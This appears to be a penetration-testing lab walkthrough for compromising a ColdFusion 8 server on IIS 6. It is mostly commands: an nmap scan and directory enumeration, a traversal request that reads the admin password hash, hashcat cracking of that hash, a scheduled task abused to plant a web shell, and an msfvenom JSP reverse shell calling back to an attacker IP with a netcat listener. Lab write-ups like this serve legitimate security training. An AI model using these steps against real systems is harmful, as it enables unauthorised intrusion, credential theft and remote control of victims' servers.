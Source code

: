 # Nmap

```bash
nmap -Pn -A 10.11.1.10

#Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-18 08:13 EST
#Stats: 0:00:03 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
#Connect Scan Timing: About 1.00% done; ETC: 08:18 (0:04:57 remaining)
#Nmap scan report for 10.11.1.10
#Host is up (0.042s latency).
#Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Under Construction
|_http-server-header: Microsoft-IIS/6.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

#Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
#Nmap done: 1 IP address (1 host up) scanned in 19.56 seconds
```

```bash
dirb http://10.11.1.10/ /usr/share/wordlists/dirb/common.txt
wget http://10.11.1.10/CFIDE/administrator/index.cfm
searchsploit adobe coldfusion 8
```

## Directory traversal to Login

```bash
curl http://10.11.1.10/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\..\..\ColdFusion8\lib\password.properties%00en

# password=AAFDC23870ECBCD3D557B6423A8982134E17927E

hashid AAFDC23870ECBCD3D557B6423A8982134E17927E # SHA-1

# cracking it
hashcat -a 0 -m 100 pass.txt /usr/share/wordlists/rockyou.txt --show # pass123
```

## Shell
- Once logged in go to:
- Debugging & Logging --> Scheduled task --> Download and save a shell from your host
- Save file to `C:\inetpub\wwwroot\shell.cfm`

## Interactive shell

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.119.130 LPORT=443 -f raw > shell.jsp

nc -lvnp 443
```

upload the shell as same before with `Scheduled Task`

